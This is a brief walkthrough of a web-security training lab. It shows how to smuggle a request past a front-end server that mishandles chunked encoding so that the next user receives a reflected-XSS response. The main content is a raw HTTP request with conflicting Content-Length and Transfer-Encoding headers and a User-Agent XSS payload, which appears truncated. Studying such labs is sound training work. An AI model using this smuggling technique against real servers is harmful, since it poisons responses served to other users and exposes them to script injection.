

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

The application is also vulnerable to reflected XSS via the `User-Agent` header.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes `alert(1)`.  
  1\. Go to a blog post in the web page and see that the user-agent is reflected in a hidden parameter of the response: Use an XSS payload for this  
  
 2\. Now we are going to smuggle the XSS request with:  
 `POST / HTTP/1.1`  
`Host: YOUR-LAB-ID.web-security-academy.net`  
`Content-Type: application/x-www-form-urlencoded`  
`Content-Length: 150`  
`Transfer-Encoding: chunked`

`0`

`GET /post?postId=5 HTTP/1.1`  
`User-Agent: a"/>`  
`Content-Type: application/x-www-form-urlencoded`  
`Content-Length: 5`

`x=1`

  
Change the HTTP 2 to HTTP 1  
 3\. Do this until the victims repeats the request  
 